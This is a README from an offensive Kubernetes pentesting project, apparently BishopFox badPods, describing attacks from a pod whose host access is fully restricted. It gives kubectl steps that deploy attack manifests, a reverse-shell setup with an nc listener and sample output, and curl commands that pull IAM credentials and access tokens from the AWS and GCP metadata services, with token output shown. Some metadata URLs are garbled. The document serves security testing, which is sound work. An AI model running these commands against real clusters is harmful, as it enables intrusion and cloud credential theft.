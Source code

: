 # Bad Pod #8: Nothing allowed

The pod security policy or admission controller has blocked access to all of the host's namespaces and restricted all capabilities. **Do not despair**, especially if the target cluster is running in a cloud environment. 

## Table of Contents
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
- [Post exploitation](#post-exploitation)
- [Reference(s):](#references)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml
kubectl exec -it nothing-allowed-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/[RESOURCE_TYPE]/nothing-allowed-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep nothing-allowed-exec-[RESOURCE_TYPE]      
kubectl exec -it nothing-allowed-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe nothing-allowed-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
nc -nvlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/nothing-allowed/[RESOURCE_TYPE]/nothing-allowed-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

## Cloud metadata
If cloud hosted, try to access the cloud metadata service. You might get access to the IAM credentials associated with the node, or even just a cloud IAM credential created specifically for that pod. In either case, this can be your path to escalate within the cluster, within the cloud environment, or both.
### AWS
```bash
curl http://169.254.169.254/latest/user-data #Look for credentials or bucket names
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ #List's role name
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME] # Get creds
```
### GCP
Test to see if you have access to the metadata service:
```
curl -H "Metadata-Flavor: Google" 'http://metadata/computeMetadata/v1/instance/service-acc://www.example.com'
126817330210-compute@developer.gserviceaccount.com/
default/
```

If you do, you can proceed with the next few commands, but I suggest deploying another pod with the gcloud image.  Using this image on an pod that has access to the metadata service allows gives you gcloud access assuming the role assigned to the node. 

```
curl -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/
https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring
https://www.googleapis.com/auth/servicecontrol
https://www.googleapis.com/auth/service.management.readonly
https://www.googleapis.com/auth/trace.append

curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/project/project-id -s
ultra-physics-269916

curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/servimail -s
126817330210-compute@developer.gserviceaccount.com

 curl -H "Metadata-Flavor: Google" 'http://metadata/computeMetadata/v1/instance/service-accounts/default/identity?audience=https://www.example.com'
eyJhbGciOiJSUzI1NiIsImtpZCI6IjZhZGMxMDFjYzc0OThjMDljMDEwZGMzZDUxNzZmYTk3Yzk2MjdlY2IiLCJ0eXAiOiJKV1QifQ.eyJhdWQiOiJod[REDACTED]


curl -H "Metadata-Flavor: Google" "http://metadata.google.internal/coance/service-accounts/default/token"      
{"access_token":"ya29.c.KpcB6AdLfSYjR7UFotbqZNjLEPTkCGxCJOr7SWjMmyDAwe7InN8QGfeJnQZlpDytvKLgWUDl_0AxEtVciZ-IKlkfgio4jag9_z9Jv83K4yiNnIGGqAdoZL7EVWhWlSlkfgDRazvXir3aPZKtqLKxXlf5p9XKdhWbDBiSZovv_oo81LAAhXVzYfcWQ","expires_in":2792,"token_type":"Bearer"}
```

## Overly permissive service account
If the default service account is mounted to your pod and is overly permissive, you can use that token to further escalate your privs within the cluster.

## Anonymous-auth
If either [the apiserver or the kubelets have anonymous-auth set to true](https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/), and there are no network policy controls preventing it, you can interact with them directly without authentication. 

## Exploits
Is the kubernetes version vulnerable to an exploit, i.e. [CVE-2020-8558](https://github.com/tabbysable/POC-2020-8558)
## Traditional vulnerability hunting
Your pod will be able to see a different view of the network services running within the cluster than you likely can see from the machine you used to create the pod. You can hunt for vulnerable services by proxying your traffic through the pod. 

   [This write-up of a CTF challenge](https://keramas.github.io/2020/08/10/Recon-Village-CTF-at-DC28.html) created by Madhu Akula demonstrates a pretty common post exploitation pattern



# Reference(s): 

* https://securekubernetes.com/
* https://madhuakula.com/kubernetes-goat/
* https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/
* https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/
* https://github.com/tabbysable/POC-2020-8558
